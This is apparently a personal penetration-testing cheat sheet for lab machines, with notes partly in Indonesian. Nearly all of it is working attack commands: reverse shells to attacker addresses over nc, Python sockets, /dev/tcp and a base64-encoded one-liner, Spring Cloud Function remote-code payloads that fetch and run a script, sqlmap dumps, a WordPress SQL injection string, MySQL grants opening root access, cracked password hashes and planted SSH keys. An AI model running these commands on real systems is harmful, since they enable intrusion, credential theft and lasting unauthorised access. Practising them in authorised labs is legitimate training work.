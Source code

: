 check access 
echo "/bin/sh <$(tty) >$(tty) 2>$(tty)" | at now; tail -f /dev/null


check service service --status-all => bisa untuk revshell atau tahap deffense
python3 -c "import pty;pty.spawn('/bin/bash')" => bisa untuk interactive shell
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.10 4444 >/tmp/f


sqlmap -u "" --current-db => bisa untuk dapetin database
sqlmap -u "http://localhost:8081/?id=1" -D soccer_db --tables
-D soccer_db -T accounts --dump

##with url
sqlmap -u http://167.71.207.218:50621/logins.php -X POST --data "username=foo&passw0rd='*&login-btn=" --batch --tamper=randomcase,space2comment -D web_blindsql --dump --time-sec 1 --threads=10


##revshell python

import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('10.10.14.37',4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);


##find permission privsec
find / -perm -u=s -type f 2>/dev/null

##fuzzing
nmap -p- --min-rate 10000 -oA scans/nmap_alltcp 10.10.10.138
nmap -sC -sV -p 22,25,80,110,111,143,443,745,993,995,3306,4190,4445,4559,5038,10000 -oA nmap/scriptstcp 10.10.10.7
nmap -A -T4 -oG writeup.gnmap 10.10.10.138
masscan -p1-65535,U:1-65535 10.129.95.203 --rate=1000
nmap -v -sV -p80,443 --script vuln -oA http_vuln 10.10.10.79
nmap -sC -sV ip -p-
nmap detail port 
sudo nmap -sU -top-ports=100 panda.htb
nmap -p22,50051 -sCV -Pn 10.129.37.201 -oN targeted
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.129.34.244 -oG allPorts
ffuf -c -w /usr/share/wordlists/dirb/big.txt -u http://10.10.10.191/FUZZ -e .txt


##fuzzing subdomain
gobuster vhost -u stocker.htb -w /usr/share/wordlists/subdomains-top1million-110000.txt
gobuster vhost -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u stocker.htb -t 50 --append-domain 
gobuster dir -u http://10.10.10.187/admin-dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,zip,html -t 20 -o scans/

##kalau misal udah fuzzing gak ada ada apa apa fungzzing pake /cig-bin -x sh,cgi,pl

gobuster-admindir-medium-php_txt_html_zip


###fuzzing directory
gobuster dir -u previse.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .php 
wfuzz -u http://office.paper -H "Host: FUZZ.office.paper" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --hh 199691

dirsearch -u http://bank.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt


wfuzz -c --sc 200 -w ./common.txt -w /usr/share/wfuzz/wordlist/general/extensions_common.txt -u http://10.10.10.191/FUZZFUZ2Z


####mysql   
GRANT ALL PRIVILEGES ON *.* TO root@10.129.82.0 IDENTIFIED by 'wizz' WITH GRANT OPTION;
create user 'wiz'@'%' identified by 'wiz';
grant all privileges on *.* to wiz@'%';

get domain
curl -I 10.129.230.29

curl -S 

curl -G --data-urlencode "c=bash -i >& /dev/tcp/10.10.14.34/4444 0>&1" http://10.129.81.227/shell.php

### fuzzing lfi
wfuzz -c -w /usr/share/seclists/Fuzzing/LFI/LFI-LFISuite-pathtotest-huge.txt --hc 404 --hh 206 http://192.168.0.119/index.php?file=FUZZ

check /proc/self/cmdline => untuk lihat cmdline terakhir

#### spring cloud revshell
curl -i -s -k -X $'POST' -H $'Host: 10.10.11.204:8080' -H $'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec(\"nc 10.10.14.52 4444")' --data-binary $'exploit_poc' $'http://10.10.11.204:8080/functionRouter'

curl -i -s -k -X $'POST' -H $'Host: 10.10.11.204:8080' -H $'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec(\"touch /tmp/file.txt")' --data-binary $'exploit_poc' $'http://10.10.11.204:8080/functionRouter'

curl -i -s -k -X $'POST' -H $'Host: 10.10.11.204:8080' -H $'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("curl http://10.10.14.19/rev.sh -o /tmp/exp.sh")' --data-binary $'exploit_poc' $'http://10.10.11.204:8080/functionRouter'

curl -i -s -k -X $'POST' -H $'Host: 10.10.11.204:8080' -H $'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("bash /tmp/exp.sh")' --data-binary $'exploit_poc' $'http://10.10.11.204:8080/functionRouter'

curl -i -s -k -X $'POST' -H $'Host: 10.10.11.204:8080' -H $'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("nc 10.10.14.19 4444")' --data-binary $'exploit_poc' $'http://10.10.11.204:8080/functionRouter'


curl -i 'https://example.com/wp-admin/admin-ajax.php' \
  --data 'action=bookingpress_front_get_category_services&_wpnonce=33b508d232&category_id=33&total_service=-7502) UNION ALL SELECT @@version,@@version_comment,@@version_compile_os,1,2,3,4,5,6-- -'


###hasing brute 

❯ cat hashes
administrator:15657792073e8a843d4f91fc403454e1
bill:13edad4932da9dbb57d9cd15b66ed104
michael:bd3dad50e2d578ecba87d5fa15ca5f85
john:a7eed23a7be6fe0d765197b1027453fe
dmytro:5d15340bded5b9395d5d14b9c21bc82b

❯ sed 's/^/NaCl/' /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt > newrockyou.txt
  
❯ john -w:newrockyou.txt hashes --format=Raw-MD5
Loaded 5 password hashes with no different salts (Raw-MD5 [MD5 128/128 XOP 4x2])
NaCliluvhorsesandgym (bill)
NaClAaronthehottest (dmytro)
NaCl2applesplus2apples (michael)
Session completed


### windows
change /etc/passwd on windows
file:///c:/windows/win.ini


### listen samba
smbclient ldap
smbclient -L ////10.10.10.11.202//

listen smbclient with remote dir
smbclient //10.10.11.202/Public


### revshell php
echo "c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMzYvNDQ0NCAwPiYx" |base64 -d | bash    


#replace ssh
ssh-keygen
cp id_rsa.pub authorized_keys

create .ssh

ssh -i id_rsa -L 8000:localhost:8000 strapi@10.129.149.92
